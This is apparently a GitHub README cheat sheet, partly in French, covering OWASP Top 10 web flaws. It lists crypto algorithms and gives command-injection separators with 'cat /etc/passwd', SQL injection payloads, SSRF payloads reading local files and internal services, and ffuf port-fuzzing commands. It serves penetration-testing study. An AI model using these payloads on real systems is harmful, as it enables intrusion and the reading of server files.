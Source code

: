 # Top-10-OWASP-CHEATSHEET
- [Templating Libraries](#Top 10)
  ## *Top 1*./ Broken acces control
  - IDOR (insecure direct object reference) just modify :
  ```bash
  #change parameters post, change id, try and see the response of server 200,404,302 
  http://example.com/user/"35" or http://example.com/user/file.php?image="4",...
  ```
  ## *Top 2*./ Cryptographic failures
  - poor Cryptographic implementation, deprecied or insecure algorithm
  - PNRG (Pseudo Random Génerator Number) sometime algorithm use to generate a random number for crypto is predictably (like random in python)
  - Algorithms of simetric encryption :
  ```test
  AES 128,192,256 bits (secure, industrie standard)
  RC6 (secure, but not a industrie standard)
  DES 56bits key too small
  3DES deprecied and replace by AES
  RC4 not secure but fast
  RC5 not secure but fast
  ```
  - Algorithms of asimetric encryption :
  ```test
  RSA 1024,2048,3072,4096bits (1024 not secure)
  Diffie hellman (only use for exchange key)
  ```
  - Algorithms of hashage :
  ```test
  MD2, MD4, MD5, MD6 (not secure depricied)
  SHA-1 (not secure depricied)
  SHA-2 (224,256,384,512) secure
  SHA-3 secure
  RIPEMD (128,160,256,320) secure use in bitcoin
  bcrypt: Variable-length hash, typically 22-34 characters long, with a salt value and a work factor (iterations).
  PBKDF2: Variable-length hash, typically 32-64 characters long, with a salt value and a work factor (iterations).
  Argon2: Variable-length hash, typically 32-64 characters long, with a salt value and a work factor (iterations).
  ```
  - Algorithms of HMAC :
  ```bash
  HS256, HS384 and HS512
  ```
  ## *Top 3*./ Injection breach
Before starting to try some payload you need to understand how web application work.   
You need to enumerate:
  - All users input
  - Url parameters
  - Variable like *GET*, *POST*, *COOKIES*
  - configuration files
  - Query parameters in URL script or application
  - View source code to know the version of OS, server SQL, server web.

Analyse every error message, its a good practise for what can you do and what can't you do 
  ### Command injection
Try this basic caracters and add command like `dir` or `cat /etc/passwd`.
```text
;
|
&
&&
||
$(...)
`...`
'''
```
You can find payloads of Windows and linux with file uploads of this repositorie
  ### XSS (Cross Site Scripting)
  ### SQL Injection  
  Check in input web, url, or in request parameter if webapplication use sql 
  ```SQL
  SELECT * from artcile where id = 1 ;--(e.g: SELECT column_name from table_name where filter = 1)
  ```
  BINARY SQL Injection, if message error is false also its a good request sql
  ```SQL
  SELECT * from artcile where id = '1' UNION SELECT 1,2,3 where database() like 'sq%';--
  ```
  SLEEP SQL Injection, if request sleep 1 sec also its a good request sql
  ```SQL
  SELECT * from artcile where id = '1' UNION SELECT sleep(1),2 from information_schema.columns where table_name = 'sqli_one' and table_name = 'users' and column_name = 'id';--
  ```
  ## Top 4 non-secure application
  ## Top 5 bad configuration
  ## Top 6 composant vulnerability
  ## Top 7 authentification failure
  ## Top 8 failure integrity data
  ## Top 9 journalisation defect
  ## *Top 10*./ SSRF (Server-Side Request Forgery), SSTI (Server-Side Template Injection), SSI (Server-Side Includes)
### SSRF
Permet sur une application web (API) de faire une requete avec le server. (like preview button)
Une fois la faille SSRF découverte on peut tester de faire des requetes GEt ou POST comme :
```bash
example=http://127.0.0.1:<port>/
example=file:///etc/passwd
example=gopher://localhost/admin
```
utiliser FUFF pour le scan de port, ou scan d'endpoint 
```bash
ffuf -w nb.txt -u http://example.com/ -X POST -H "Content-type: application/x-www-form-urlencoded" -d "example=http://127.0.0.1:FUZZ/"
ffuf -w /usr/shar/wordlists/seclists/Discovery/Web-content/burp -u http://example.com/ -X POST -H "Content-type: application/x-www-form-urlencoded" -d "example=http://example.com/FUZZ.php"
```
### SSTI
Permet d'utiliser le moteur de template d'une page pour executer du code 
![Capture d'écran de mon projet](diagram.png)
